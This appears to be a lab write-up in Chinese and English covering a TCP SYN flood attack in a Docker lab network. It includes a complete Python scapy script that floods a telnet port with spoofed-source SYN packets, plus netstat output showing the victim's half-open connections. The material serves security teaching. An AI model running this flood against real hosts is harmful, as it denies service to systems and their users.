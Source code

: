 ```shell
# export PS1="\w attacker-10.9.0.1$ "
```

```shell
# export PS1="\w user1-10.9.0.6$ "
```

修改 dockerfile，给 victim 加上：

```dockerfile
privileged: true
```

### Task 1.1: Launching the Attack Using Python

编写 `synflood.py`：

```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    pkt[TCP].sport = getrandbits(16) # source port
    pkt[TCP].seq = getrandbits(32) # sequence number
    send(pkt, verbose = 0)
```

查看当前 tcp 连接：

```shell
victim-10.9.0.5$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:41019        0.0.0.0:*               LISTEN
```

运行程序：

```shell
attacker-10.9.0.1$ synflood.py
```

查看当前 tcp 连接：

```shell
victim-10.9.0.5$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:41019        0.0.0.0:*               LISTEN     
tcp        0      0 10.9.0.5:23             51.28.29.181:52204      SYN_RECV   
tcp        0      0 10.9.0.5:23             144.159.54.170:59931    SYN_RECV   
tcp        0      0 10.9.0.5:23             187.91.156.41:61074     SYN_RECV   
......
victim-10.9.0.5$ netstat -tna | grep SYN_RECV | wc -l
97
victim-10.9.0.5$ ss -n state syn-recv sport = :23 | wc -l
98
```
